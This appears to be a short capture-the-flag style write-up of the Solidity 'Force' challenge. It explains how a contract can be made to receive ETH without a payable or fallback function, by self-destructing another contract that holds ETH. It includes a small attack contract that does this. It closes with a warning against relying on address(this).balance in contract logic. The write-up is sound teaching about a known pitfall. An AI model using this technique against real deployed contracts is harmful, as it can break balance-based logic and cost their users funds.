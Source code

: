 #Force

One way we can force ETH into a contract without a payable function or a fallback function is to
selfdestruct a smart contract with ETH and send the ETH balance to the target contract.

```solidity
// SPDX-License-Identifier: MIT
pragma solidity ^0.8.7;

contract Force {

    constructor() payable {

    }

    function attack(address _to) public payable{
        selfdestruct(payable(_to));
    }
}
```

Calling the attack function will destroy the contract and send its ETH to the target

**IMPORTANT NOTE**
Don't rely on address(this).balance to check for contract logic
